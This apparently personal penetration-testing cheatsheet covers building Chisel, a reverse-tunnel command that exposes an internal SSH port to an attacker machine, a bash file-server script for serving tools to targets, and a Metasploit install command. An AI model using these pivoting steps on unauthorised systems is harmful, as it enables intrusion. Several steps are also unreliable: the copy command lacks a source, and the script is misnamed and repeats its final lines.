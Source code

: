 ```yaml
---
title: "Kali Tricks"
excerpt_separator: "<!--more-->"
author_profile: false
categories:
  - Linux
tags:
  - cheatsheet
  - kali
---
```



## Sections

### Kali
* [Tips and Tricks](#tips-and-tricks)
* [Install Apps Universally](#install-apps-universally)

### Kali app updates
* [Metasploit update](#metasploit)



## Tips and Tricks
### Chisel Quick guide

<details>
  <summary>Chisel Info - Click here</summary>
  
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

</details>

Install Chisel
* cd to /opt
```console
cd /opt
```
* clone the repo
```console
git clone https://github.com/jpillora/chisel.git
```
* cd to the cloned repo
```console
cd chisel
```
sync go vendor modules, seems to be needed to build for windows
```console
go mod vendor
```
build Linux binary:
```console
go build -ldflags "-s -w"
```
build Windows binary
```console
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
```
  
Usage: [Chisel Github](https://github.com/jpillora/chisel)

(*upload chisel to the attacking machine)    

Use chisel to reverse connect back to the other hidden localhost port for ssh 22 using port 9001

```console
$ ./chisel server -p 9001 --reverse

$ ./chisel client 10.8.0.116:9001 R:127.0.0.1:9002:172.17.0.1:22
# ./chisel client YOUR-IP-HERE:9001 R:127.0.0.1:9002:ATTACKER-MACHINE-IP:22
```

### Install apps universally
To make an application or script avilable systemwide you usually copy them to /usr/local/bin

*Example: Say we want to get our IP address, List files and then start a python http server to server the files. 

1. Make a script (or get an App you want), I've called my script: pss.py (python start server.py)
Script Details:-
- Select IP if more then 1 interface (eth0, tun0)
- List files in directory with wget links and your current IP
- Shows all files in the current directory

```bash
#!/bin/bash

GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

echo -e "\n$CYAN""Python FileServer$RES"
echo -e "Created By$GN Ac1d $RES\n"

HN="hostname -I"
res=$(eval $HN)
arrIN=(${res// / })
IP=""

if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which Ip address, 1 or 2?: '
        options=("Option 1: ${arrIN[0]}" "Option 2: ${arrIN[1]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "Option 1: ${arrIN[0]}")
                        IP="${arrIN[0]}"
                        #echo "you chose choice 1"
                        break
                ;;

                "Option 2: ${arrIN[1]}")
                        IP="${arrIN[1]}"
                        #echo "you chose choice 2"
                        break
                ;;
                "Quit")
                break
                ;;
                *) echo "invalid option $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo "IP: "$IP
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget ${IP##*( )}/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo -e "\nCurrent Directory Contents"
ls --color /
echo -e "\nStarting Server"
sudo python3 -m http.server 80  -d .

ls
sudo python3 -m http.server 80  -d .
```

2. Give it the correct file permissions.
```bash
chmod +x pss.py
```

3. Then copy the file/script to /usr/local/bin
```bash
cp /usr/local/bin
```

4. Test your new tools and scripts out from any directory. 
![](/assets/images/pss.png)


## Kali app updates
### Metasploit
Remove old metasploit 
```console
sudo apt remove metasploit-framework -y
```
Install new version, Run 'msfconsole' after install
```console
sudo curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```





